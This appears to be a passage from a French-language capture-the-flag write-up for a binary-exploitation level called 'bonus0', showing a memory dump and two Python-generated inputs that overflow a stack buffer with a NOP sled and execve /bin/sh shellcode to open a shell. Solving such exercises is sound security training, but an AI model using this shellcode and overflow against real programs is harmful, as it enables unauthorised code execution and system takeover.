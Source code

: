 ```
0xbfffe650:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe660:	0x00000000	0x00000000	0x00000000	0x00000000
```
Notre `shell code` sera situé après nos `20` `A`. L'adresse de retour est donc `0xbfffe644`.

Nous pouvons à présente construire nos entrées.

**Entrée_1**
```
python -c 'print "A"*20 + "\x90"*100 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'
```
**Entrée_2**
```
python -c 'print "B"*14 + "\x44\xe6\xff\xbf" + "B"'
```

On exécute cette commande pour ouvrir un `shell` :
```
(python -c 'print "A"*20 + "\x90"*100 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'; python -c 'print"B"*14 + "\x44\xe6\xff\xbf" + "B"'; cat) | ./bonus0
```
